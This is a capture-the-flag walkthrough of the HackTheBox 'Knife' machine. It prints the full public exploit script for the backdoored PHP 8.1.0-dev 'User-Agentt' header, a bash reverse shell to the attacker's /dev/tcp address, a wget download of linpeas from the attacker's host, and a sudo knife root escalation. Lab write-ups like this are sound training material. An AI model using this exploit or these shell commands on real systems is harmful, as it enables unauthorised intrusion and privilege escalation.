

---
search:
  exclude: true
---
# Knife Writeup

## Introduction :

Knife is an easy Linux box released back in May 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.57/23 ] [ /dev/pts/0 ] [~/HTB]
    → sudo vim /etc/hosts
    [sudo] password for nothing:
    
    [ 10.10.14.57/23 ] [ /dev/pts/0 ] [~/HTB]
    → cat /etc/hosts | tail -n1
    10.129.111.84 knife.htb
    
    [ 10.10.14.57/23 ] [ /dev/pts/0 ] [~/HTB]
    → nmap -sCV knife.htb
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-28 21:44 CEST
    Nmap scan report for knife.htb (10.129.111.84)
    Host is up (0.039s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
    |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
    |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title:  Emergent Medical Idea
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.82 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 

Here we see that the website is running PHP 8.1.0 so let's look for available exploits:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~]
    → searchsploit php 8.1.0
    PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                      | php/webapps/49933.py
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Knife]
    → cp /usr/share/exploit-database/exploits/php/webapps/49933.py .
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Knife]
    → vim 49933.py
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Knife]
    → cat 49933.py
    # Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
    # Date: 23 may 2021
    # Exploit Author: flast101
    # Vendor Homepage: https://www.php.net/
    # Software Link:
    #     - https://hub.docker.com/r/phpdaily/php
    #    - https://github.com/phpdaily/php
    # Version: 8.1.0-dev
    # Tested on: Ubuntu 20.04
    # References:
    #    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
    #   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md
    
    """
    Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
    Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
    Contact: flast101.sec@gmail.com
    
    An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
    The following exploit uses the backdoor to provide a pseudo shell ont the host.
    """
    
    #!/usr/bin/env python3
    import os
    import re
    import requests
    
    host = input("Enter the full host url:\n")
    request = requests.Session()
    response = request.get(host)
    
    if str(response) == '<****Response [200]>':
        print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
        try:
            while 1:
                cmd = input("$ ")
                headers = {
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
                "User-Agentt": "zerodiumsystem('" + cmd + "');"
                }
                response = request.get(host, headers = headers, allow_redirects = False)
                current_page = response.text
                stdout = current_page.split(' <****!DOCTYPE html>',1)
                text = print(stdout[0])
        except KeyboardInterrupt:
            print("Exiting...")
            exit
    
    else:
        print("\r")
        print(response)
        print("Host is not available, aborting...")
        exit

Now let's try that exploit:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Knife]
    → python3 49933.py
    Enter the full host url:
    http://knife.htb
    
    Interactive shell is opened on http://knife.htb
    Can't acces tty; job crontol turned off.
    $ id
    uid=1000(james) gid=1000(james) groups=1000(james)
    
    

And we got a shell as the james user! Now let's upgrade our shell to a fully interactive TTY:
    
    
    [term1]
    [ 10.10.14.68/23 ] [ /dev/pts/15 ] [~/HTB/Knife]
    → nc -lvnp 9001
    
    [term2]
    $ bash -c "bash -i >& /dev/tcp/10.10.14.68/9001 0>&1"
    
    [term1]
    [ 10.10.14.68/23 ] [ /dev/pts/15 ] [~/HTB/Knife]
    → nc -lvnp 9001
    Connection from 10.129.111.84:45348
    bash: cannot set terminal process group (893): Inappropriate ioctl for device
    bash: no job control in this shell
    
    james@knife:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    
    james@knife:/$ ^Z
    [1]  + 269384 suspended  nc -lvnp 9001
    
    [ 10.10.14.68/23 ] [ /dev/pts/15 ] [~/HTB/Knife]
    → stty raw -echo ; fg
    [1]  + 269384 continued  nc -lvnp 9001
    
    james@knife:/$ export TERM=screen-256color
    james@knife:/$ export SHELL=bash
    james@knife:/$ stty rows 40 columns 125
    james@knife:/$ reset
    
    

Now with this we have a fully interactive shell to work with. Let's grab the user flag:
    
    
    james@knife:/$ cd ~
    james@knife:~$ pwd
    /home/james
    james@knife:~$ cat user.txt
    b6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

## **Part 3 : Getting Root Access**

Now in order to escalate privileges let's run linpeas.sh on the target machine: 
    
    
    [term1]
    [ 10.10.14.68/23 ] [ /dev/pts/14 ] [~/HTB/Knife]
    →  cp /home/nothing/HTB/Cap/linpeas.sh .
    
    [ 10.10.14.68/23 ] [ /dev/pts/14 ] [~/HTB/Knife]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    10.129.111.84 - - [29/Apr/2022 21:15:53] "GET /linpeas.sh HTTP/1.1" 200 -
    
    [term2]
    james@knife:~$ wget http://10.10.14.68:9090/linpeas.sh -O /tmp/peas.sh
    --2022-04-29 19:15:45--  http://10.10.14.68:9090/linpeas.sh
    Connecting to 10.10.14.68:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 776167 (758K) [application/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    2022-04-29 19:15:46 (1.05 MB/s) - ‘/tmp/peas.sh’ saved [776167/776167]
    
    james@knife:~$ chmod +x /tmp/peas.sh
    james@knife:~$ /tmp/peas.sh
    
    

` 

Looking at the output we see the following:

Here we have the knife binary file which can be ran as root by the user james without any password, so let's see what it does:
    
    
    james@knife:~$ /usr/bin/knife --help
    Chef Infra Client: 16.10.8
    
    Docs: https://docs.chef.io/workstation/knife/
    Patents: https://www.chef.io/patents
    
    Usage: knife sub-command (options)
        -s, --server-url URL             Chef Infra Server URL.
            --chef-zero-host HOST        Host to start Chef Infra Zero on.
            --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
        -k, --key KEY                    Chef Infra Server API client key.
            --[no-]color                 Use colored output, defaults to enabled.
        -c, --config CONFIG              The configuration file to use.
            --config-option OPTION=VALUE Override a single configuration option.
            --defaults                   Accept default values for all questions.
        -d, --disable-editing            Do not open EDITOR, just accept the data as is.
        -e, --editor EDITOR              Set the editor to use for interactive commands.
        -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
            --[no-]fips                  Enable FIPS mode.
        -F, --format FORMAT              Which format to use for output. (valid options: 'summary', 'text', 'json', 'yaml', or 'pp')
            --[no-]listen                Whether a local mode (-z) server binds to a port.
        -z, --local-mode                 Point knife commands at local repository instead of Chef Infra Server.
        -u, --user USER                  Chef Infra Server API client username.
            --print-after                Show the data after a destructive operation.
            --profile PROFILE            The credentials profile to select.
        -V, --verbose                    More verbose output. Use twice (-VV) for additional verbosity and three times (-VVV) for maximum verbosity.
        -v, --version                    Show Chef Infra Client version.
        -y, --yes                        Say yes to all prompts for confirmation.
        -h, --help                       Show this help message.
    
    Available subcommands: (for details, knife SUB-COMMAND --help)
    
    

According to the documentation, this [knife](https://docs.chef.io/workstation/knife/) binary is a command-line tool that provides an interface between a local chef-repo and the Chef Infra Server. And it has a [gtfobin](https://gtfobins.github.io/gtfobins/knife/#sudo):
    
    
    james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    a1XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the root flag!

## **Conclusion**

Here we can see the progress graph :

